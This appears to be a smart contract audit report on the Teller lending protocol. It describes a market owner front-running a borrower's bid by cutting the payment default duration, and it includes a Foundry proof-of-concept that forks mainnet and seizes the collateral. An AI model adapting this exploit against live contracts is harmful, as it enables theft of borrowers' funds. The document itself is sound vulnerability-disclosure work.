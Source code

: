 jpserrat

high

# The market owner can front-run bid submissions to reduce the payment delay.

## Summary
When the borrower submits a bid the market owner can front-run the transaction to change the payment duration.

## Vulnerability Detail
When the borrower submit a new bid, this bid is going to use the payment duration of the market select by the user.
```solidity
        bidDefaultDuration[bidId] = marketRegistry.getPaymentDefaultDuration(_marketplaceId);
```
But currently, the market registry does not use a timelock for the market owner set a new payment default duration.
```solidity
    function setPaymentDefaultDuration(uint256 _marketId, uint32 _duration)
        public
        ownsMarket(_marketId)
    {
        if (_duration != markets[_marketId].paymentDefaultDuration) {
            markets[_marketId].paymentDefaultDuration = _duration;

            emit SetPaymentDefaultDuration(_marketId, _duration);
        }
    }
```
The borrower can end up creating a bid with a default duration to which they didn't agree.

## Impact
The market owner can take advantage of this vulnerability to front-run the borrower transaction, set the default payment to 1 and accept the borrower's bid as a lender.
The market owner can call on the next block to withdraw the borrower's collateral.

## POC

Add this to the root of the test folder.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Testable.sol";
import "../lib/forge-std/src/console.sol";
import "../contracts/TellerV2.sol";
import "../contracts/CollateralManager.sol";
import "../contracts/escrow/CollateralEscrowV1.sol";
import "../node_modules/@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { PaymentType, PaymentCycleType } from "../contracts/libraries/V2Calculations.sol";
import { MarketRegistry } from "../contracts/MarketRegistry.sol";

contract PocTest is Testable {

    TellerV2 tellerv2;
    CollateralManager collateralManager;
    CollateralEscrowV1 collateralEscrowV1;
    MarketRegistry marketRegistry;
    IERC20 usdc;
    address borrower = address(3);
    address marketOwner = address(1);
    uint256 marketId;


     function setUp() public {
        vm.createSelectFork(vm.envString("MAINNET_RPC_URL"));
        tellerv2 = TellerV2(0x00182FdB0B880eE24D428e3Cc39383717677C37e);
        collateralManager = CollateralManager(0x2551A099129ad9b0b1FEc16f34D9CB73c237be8b);
        collateralEscrowV1 = CollateralEscrowV1(0x27f57e6E919EB8fa8EA8f64a45dD425C70d3Ad44);
        marketRegistry = MarketRegistry(payable(0x5e30357d5136Bc4BfaDBA1ab341D0da09Fe7a9F1));
        usdc = IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);

        vm.label(address(tellerv2), "tellerv2");
        vm.label(address(collateralManager), "collateralManager");
        vm.label(address(collateralEscrowV1), "collateralEscrowV1");
        vm.label(address(usdc), "usdc");
        vm.label(address(borrower), "borrower");
        vm.label(address(marketOwner), "marketOwner");

        vm.prank(marketOwner);
        marketId = marketRegistry.createMarket(
            address(marketOwner),
            8000,
            7000,
            5000,
            500,
            false,
            false,
            "uri://"
        );

    }

    function test_marketowner_change_payment_duration() public {
        uint256 amount = 10e6;
        deal(address(usdc), address(borrower), amount * 5);
        deal(address(usdc), address(marketOwner), amount);

        Collateral memory collateral = Collateral({
            _collateralType: CollateralType.ERC20,
            _amount: amount,
            _tokenId: 0,
            _collateralAddress: address(usdc)
        });

        Collateral[] memory collateralInfo = new Collateral[](1);
        collateralInfo[0] = collateral;

        // market owner set the payment duration to 1
        vm.prank(marketOwner);
        marketRegistry.setPaymentDefaultDuration(marketId, 1);

        // borrower submit bid with payment duration = 1
        vm.startPrank(borrower);
        uint256 bidId = tellerv2.submitBid(
            address(usdc), 
            marketId, 
            100, 
            10000, 
            500, 
            "metadataUri://", borrower, 
            collateralInfo);
        usdc.approve(address(collateralManager), amount);

        vm.stopPrank();
       
        vm.startPrank(marketOwner);
        usdc.approve(address(tellerv2), amount);
        tellerv2.lenderAcceptBid(bidId);

        // market owner withdraw collateral from defaulted loan
        vm.warp(block.timestamp + 2);
        collateralManager.withdraw(bidId);

    }

}
```

## Code Snippet
https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/TellerV2.sol#L376-L378

## Tool used

Manual Review

## Recommendation
Add a new parameter to the bid, that the borrower can add the minimum payment delay they are willing to accept.